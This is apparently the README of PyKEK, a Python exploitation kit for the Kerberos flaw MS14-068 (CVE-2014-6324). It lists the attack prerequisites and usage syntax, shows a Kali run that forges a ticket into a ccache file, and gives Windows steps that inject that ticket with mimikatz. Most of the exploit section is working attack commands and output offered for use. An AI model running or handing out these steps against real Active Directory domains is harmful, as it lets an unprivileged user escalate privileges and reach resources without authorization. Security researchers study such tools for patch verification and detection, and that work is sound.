 Python Kerberos Exploitation Kit
===

PyKEK (Python Kerberos Exploitation Kit), a python library to manipulate KRB5-related data. (Still in development)
For now, only a few functionalities have been implemented (in a quite Quick'n'Dirty way) to exploit  MS14-068 (CVE-2014-6324) .
More is coming...

# Library content
* kek.krb5: Kerberos V5 ([RFC 4120](https://tools.ietf.org/html/rfc4120)) ASN.1 structures and basic protocol functions
* kek.ccache: Credential Cache Binary Format ([cchache](http://www.gnu.org/software/shishi/manual/html_node/The-Credential-Cache-Binary-File-Format.html)
* kek.pac: Microsoft Privilege Attribute Certificate Data Structure ([MS-PAC](http://msdn.microsoft.com/en-us/library/cc237917.aspx))
* kek.crypto: Kerberos and MS specific cryptographic functions

# Exploits
## ms14-068.py
To exploit MS14-068, you need :
 - A (one-way) trust relationship between a domain A and a domain B
 - An un-privileged user account on domain A
 - A resource on domain B accessible to privileged user of domain A

## Usage :
USAGE:
ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr>

OPTIONS:
    -p <clearPassword>
 --rc4 <ntlmHash>

## Example usage :
# Linux (tested with samba and MIT Kerberos)
root@kali:~/sploit/pykek# python ms14-068.py -u user-a-1@dom-a.loc -s S-1-5-21-557603841-771695929-1514560438-1103 -d dc-a-2003.dom-a.loc
Password: 
  [+] Building AS-REQ for dc-a-2003.dom-a.loc... Done!
  [+] Sending AS-REQ to dc-a-2003.dom-a.loc... Done!
  [+] Receiving AS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Parsing AS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Building TGS-REQ for dc-a-2003.dom-a.loc... Done!
  [+] Sending TGS-REQ to dc-a-2003.dom-a.loc... Done!
  [+] Receiving TGS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Parsing TGS-REP from dc-a-2003.dom-a.loc... Done!
  [+] Creating ccache file 'TGT_user-a-1@dom-a.loc.ccache'... Done!
root@kali:~/sploit/pykek# mv TGT_user-a-1@dom-a.loc.ccache /tmp/krb5cc_0 

# Windows
On a windows machine (using Python for Windows) :
python.exe ms14-068.py -u user-a-1@dom-a.loc -s S-1-5-21-557603841-771695929-1514560438-1103 -d dc-a-2003.dom-a.loc
mimikatz.exe "kerberos::ptc TGT_user-a-1@dom-a.loc.ccache" exit

